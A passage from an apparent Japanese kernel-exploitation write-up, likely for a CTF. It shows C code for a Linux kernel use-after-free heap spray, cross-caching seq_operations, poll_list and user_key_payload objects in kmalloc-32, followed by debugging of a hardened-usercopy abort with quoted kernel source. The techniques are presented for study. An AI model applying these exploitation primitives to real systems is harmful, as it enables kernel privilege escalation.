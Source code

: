 ```.c
  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");
  
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
     _alloc_key_prefill_ulong_val = 0xDEADBEEF;

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }
```

`user_key_payload`を確保する前に予め`setxattr()`で`0xDEADBEEF`を書き込んでいます。これによって、`user_key_payload.rcu`がこの値になり、且つ`poll_list.next`がこの値になるはず。実行してみると...:

![](https://hackmd.io/_uploads/rJtEUspgj.png)

??? `Kernel memory overwrite attempt detected to SLUB object 'filp'`らしいです。ソースを読んでみると、これは`CONFIG_HARDENED_USERCOPY`が有効な場合に表示される文面みたいですね。

```mm/usercopy.c
void __noreturn usercopy_abort(const char *name, const char *detail,
			       bool to_user, unsigned long offset,
			       unsigned long len)
{
    pr_emerg("Kernel memory %s attempt detected %s %s%s%s%s (offset %lu, size %lu)!\n",
       to_user ? "exposure" : "overwrite",
       to_user ? "from" : "to",
       name ? : "unknown?!",
       detail ? " '" : "", detail ? : "", detail ? "'" : "",
       offset, len);
    BUG();
}
void __check_heap_object(const void *ptr, unsigned long n, struct page *page, bool to_user)
{
    ...
    usercopy_abort("SLUB object", s->name, to_user, offset, n);
}
```